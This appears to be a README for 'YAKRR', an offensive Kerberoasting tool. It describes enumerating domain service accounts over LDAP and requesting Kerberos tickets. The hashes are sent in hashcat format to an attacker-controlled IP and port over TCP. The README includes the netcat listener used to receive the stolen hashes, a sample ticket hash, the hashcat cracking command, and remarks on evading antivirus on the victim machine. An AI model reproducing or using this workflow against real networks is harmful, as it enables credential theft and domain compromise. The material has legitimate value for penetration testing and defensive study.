 ﻿### YAKRR
#### Yes, Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (ath the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>
![Screenshot](hashcatKerb.png)
Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters.<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>



